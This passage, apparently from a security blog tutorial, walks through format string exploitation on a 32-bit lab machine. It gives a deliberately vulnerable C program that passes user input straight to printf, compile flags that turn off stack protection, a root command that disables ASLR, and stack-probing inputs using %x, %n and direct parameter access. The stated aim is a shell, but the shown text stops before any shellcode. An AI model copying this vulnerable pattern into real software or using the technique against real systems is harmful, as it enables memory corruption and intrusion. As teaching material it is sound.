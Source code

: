 # Exploiting
This by its self can be used for data leakage by reading arbitrary data from the
stack you could leak sensitive data stored in memory, read stack canary values
to exploit buffer overflows in binaries where stack protection is enabled.

Today however we are going to use this to get a shell

## Setup
See my post on vagrant to setup a 32 bit virtual machine. Once ssh'd into that
machine save the following file to fmt.c

{{< highlight c >}}
/* fmt.c - sample program vulnerable to format string exploitation
 * 
 * $ gcc -o fmt fmt.c
 * $ execstack -s fmt # make stack executable
 */
#include <stdio.h>
#include <string.h>
 
int main(int argc, char *argv[]) {
    char b[128];
    strcpy(b, argv[1]);
    printf(b);
    printf("\n");
}

{{< / highlight >}}
Compile using
```
  $ gcc -fno-stack-protector -z execstack -o fmt fmt.c
```
You may see a warning about format strings but as long as you end up with a fmt
binary its all good. You also need to disable ASLR or else your shellcode will
move about on the stack each time you run the program. As root run
```
  $ echo 0 > /proc/sys/kernel/randomize_va_space
```

## Moving on
Now we hav2 our vulnerable binary lets test it
```
  $ ./fmt AAAA
  AAAA
```
looks good, now after reading the man pages for printf we found a couple of
interesting format specifiers
* %x lets us display a value as hex
* %n writes the amount of bytes written so far to the pointer that corresponds
  to this parameter

Jackpot! We can use this to write arbitrary data to a memory location that we
control!!!! More on that later, first we need to find out how to access the data
we supplied (so that we can provide our own address to write data to)
```
  $ ./fmt AAAA.%x.%x.%x.%x.%x.%x
  AAAA.bffff88b.1.b7ec71c9.41414141.2e78252e.252e7825
```
You can see from above that the 41414141 string is the 4th value on the stack
(0x41 hex is 65 decimal which is ascii A). Now up until now I have not mention
direct parameter access, this allows is to not have to specify all the %x's and
reference the 4th parameter as %4$x, see below
```
  $ ./fmt AAAA.%4\$x
  AAAA.41414141
```